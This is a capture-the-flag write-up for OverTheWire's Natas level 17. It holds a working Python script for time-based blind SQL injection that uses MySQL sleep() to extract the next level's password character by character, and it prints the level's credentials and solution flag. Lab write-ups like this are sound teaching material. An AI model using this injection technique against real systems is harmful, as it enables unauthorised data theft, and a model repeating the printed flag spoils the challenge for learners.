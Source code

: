 # Natas Level 17

Access data:

    username: natas17
    password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd


Another SQL Blind injection case. But now, there is no displayed information we can abuse. But maybe we can create a side-channel ourselves abusing the MySQL _sleep()_ command? Spoiler: Yes we can. 

We just have to append a sleep() command to the case that we guessed a character correctly. In our code we can then check, whether the request took longer than our configured sleep parameter (e.g. 2 seconds). This means, the sleep was executed and therefore the guessed character was correct. Possible solution script:

```python
    import requests, string
    from bs4 import BeautifulSoup
    
    #Time-Based Blind SQLi 

    user = "natas17"
    password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
    url = f"http://{user}.natas.labs.overthewire.org"

    session = requests.Session()
    session.auth = (user, password)
    auth = session.post(url)

    possibleCharacters = list(string.ascii_letters + string.digits) #possible flag characters are letters and digits.
    resultFlag = ""

    characterCounter = 0
    while(len(resultFlag) < 32):
        challenge = resultFlag + possibleCharacters[characterCounter]
        
        #binary for capitalization
        challenge_params = {"username" : f'natas18" and password like BINARY "{challenge}%" and sleep(2) and "1"="1' }
        print("Testing: " + challenge)
        resp = session.post(url, data=challenge_params)
        
        #print(BeautifulSoup(resp.text, 'html.parser').prettify())
        if(resp.elapsed.total_seconds() >= 2):
            print("Match!")
            resultFlag += possibleCharacters[characterCounter]
            characterCounter = 0
            continue
        else:
            characterCounter += 1

    #print(BeautifulSoup(resp.text, 'html.parser').prettify())
    print("Flag: " + resultFlag)
```

<details>
  <summary>Solution</summary>
  Flag: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
</details>